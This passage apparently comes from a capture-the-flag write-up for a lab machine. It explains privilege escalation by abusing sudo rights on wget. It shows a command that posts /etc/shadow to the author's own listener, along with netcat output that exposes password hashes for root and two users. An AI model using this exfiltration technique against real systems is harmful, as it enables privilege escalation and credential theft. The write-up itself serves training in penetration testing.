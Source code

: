 ### Privilege escalation

Being Sammy, I decided to run ``sudo -l`` and found something interesting: we can run wget as root!

*Output of ``sudo -l``*

![Img](images/wget-sudo.png)

The plan is the following: I'll run wget as root to post some data (a file) to my own machine and then listen with netcat. The command is:

```sh
sudo wget --post-file=/etc/shadow 10.10.15.6:8002
```

*Output of command (in box)*

![Img](images/wget_output.png)

*Output of command (in my local machine)*

```console
parallels@ubuntu:~/Desktop/Sunday$ nc -lnvp 8002
Listening on [0.0.0.0] (family 0, port 8002)
Connection from [10.10.10.76] port 8002 [tcp/*] accepted (family 2, sport 43242)
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.15.6:8002
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 634

root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
